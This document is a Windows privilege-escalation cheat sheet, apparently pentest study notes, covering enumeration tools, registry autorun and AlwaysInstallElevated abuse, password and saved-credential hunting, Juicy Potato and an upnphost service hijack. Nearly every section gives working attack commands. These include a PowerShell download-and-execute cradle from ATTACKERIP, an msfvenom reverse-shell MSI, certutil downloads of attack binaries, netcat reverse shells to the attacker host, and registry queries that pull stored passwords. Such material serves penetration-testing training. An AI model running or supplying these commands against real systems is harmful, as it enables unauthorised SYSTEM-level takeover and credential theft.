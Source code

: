 ## Enumeration

### WinPeas

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/


```
Run all checks while avoiding time-consuming searches:
.\winPEASany.exe quiet cmd fast
winPEAS.exe -a
```
### SeatBelt
```
//system info
SeatBelt.exe system

// user info
SeatBelt.exe user
```

### PowerUP

https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

```
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://ATTACKERIP/PowerUp.ps1');Invoke-AllChecks"
```

### MSF enumeration

```
//weak services permissions
exploit/windows/local/service_permissions

//Always installed elevated
exploit/windows/local/always_install_elevated

//Unattend
post/windows/gather/enum_unattend`
```
## Registry exploits

### Autorun

if you are able to write to an AutoRun executable, and are able to restart the system (or wait for it to be restarted) you may be able to escalate privileges.
```
 .\winPEASany.exe quiet applicationsinfo
 
 //or use requery
 reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
 
 //and then use accesschk.exe to verify the permissions on each one:
 
 .\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
 

```
 Exploit:
 ```
 copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
 copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\AutorunProgram\program.exe"
 ```

### AlwaysInstallElevated

```
// Use winPEAS to see if both registry values are set:
.\winPEASany.exe quiet windowscreds

// Alternatively, verify the values manually: (both should return 1)
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Exploit:
```
// Create a new reverse shell with msfvenom, this time using the msi format, and save it with the .msi extension:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f msi -o reverse.msi

//Copy the reverse.msi across to the Windows VM, start a listener on Kali, and run the installer to trigger the exploit:

msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```
## Passwords Hunting

### Registries
Plenty of programs store configuration options in the Windows Registry. It is always worth searching the Registry for passwords.
```
// Use winPEAS to check common password locations:
.\winPEASany.exe quiet filesinfo userinfo

//manual check
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```

### Saved Creds
Windows also allows users to save their credentials to the system, and these saved credentials can be used to bypass this requirement
 
.\winPEASany.exe quiet cmd windowscreds
// We can verify this manually using the following command:
cmdkey /list

```
Exploit:
```
//We can use the saved credential to run any command as the admin user. Start a listener on Kali and run the reverse shell executable:
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```
## Exploits

### Juicy potato
https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

Check if users has the following permissions `SeImpersonate` or `SeAssignPrimaryToken` using the following command:

```
whoami /priv
```
![image](4a4d96decced0b64fbb826574627e469.png)

ATTACKER MACHINE

```
nc -lvp 1340
```
VICTIM MACHINE
```
// Download juicy potato binary
certutil -urlcache -split -f http://ATTACKERIP/juicypotato.exe juicypotato.exe

//Download nc binary
certutil -urlcache -split -f http://ATTACKERIP/nc.exe nc.exe 

//Create a bat file that will later execute with juicy potato
echo c:\Users\Public\Documents\nc.exe -e cmd.exe ATTACKERIP 1340 > rev.bat

//call the revshell as system
juicypotato.exe -l 1340 -t * -p c:\Users\Public\Documents\rev.bat

```

### Windows XP SP1 is known to be vulnerable to PE in upnphost. 

```
VICTIM MACHINE
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR_IP 1234 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost

// If it fails because of a missing dependency, run the following:
sc config SSDPSRV start= auto
net start SSDPSRV
net start upnphost

ATTACKER MACHINE
nc -lvpn 1234
```

### WINDOWS 10 before build 17134 (tested on 14393)

```
use windows/local/ms16_075_reflection_juicy
```

